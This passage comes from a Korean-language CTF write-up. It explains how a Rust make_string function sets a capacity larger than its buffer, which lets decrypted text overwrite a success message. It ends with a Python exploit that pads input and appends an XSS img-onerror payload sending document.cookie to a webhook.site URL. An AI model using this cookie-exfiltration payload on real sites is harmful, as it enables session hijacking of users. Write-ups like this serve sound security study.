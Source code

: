 ```rust

#[inline(always)]
pub fn make_string(ptr: *mut u8, cap: usize, len: usize) -> String {
	let sentinel_string = crate::transmute::<_, String>([0usize, 1usize, 2usize]);

	let mut actual_buf = [0usize; 3];
	actual_buf[sentinel_string.as_ptr() as usize] = ptr as usize;
	actual_buf[sentinel_string.capacity()] = cap;
	actual_buf[sentinel_string.len()] = len;

	std::mem::forget(sentinel_string);

	crate::transmute::<_, String>(actual_buf)
}
```          
`last_decryption` 배열은 크키가 300으로 지정되어있었지만, `make_string()` 함수에서 `capacity` 값을 600으로 설정하면서 문제가 발생하게 된다. 다시 말해, 복호화된 문자열의 길이가 300 ~ 600 일 경우, `success_msg`에 문자열이 덮어씌워져 원하는 문자열을 쓸 수 있게 된다.                      
              
<img src="/assets/images/ctf/2024/ut/Unsound/leak.jpg" width="700px"/>              
        
즉, 위와 같이 `"A" * 308` 문자열을 암호화하고 복호화해주면 `SUCCESS` 문자열이 나오지 않고 `"A"` 문자열이 출력되는 것을 볼 수 있다.       

이로 인해, `<img>` 태그를 활용하면 `XSS` 취약점으로 이어져 쿠키 탈취가 가능해진다.    
                      
## Exploit Code  
```python
dummy = "A" * 300
xss_payload = '''<img src=x onerror="fetch('https://webhook.site/4f858ea1-7b1d-4e60-be16-5394a6aa673a/?c='+document.cookie,{method:'GET'})">'''
print(dummy + xss_payload)

# xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx<img src=x onerror="fetch('https://webhook.site/4f858ea1-7b1d-4e60-be16-5394a6aa673a/?c='+document.cookie,{method:'GET'})">
```        
           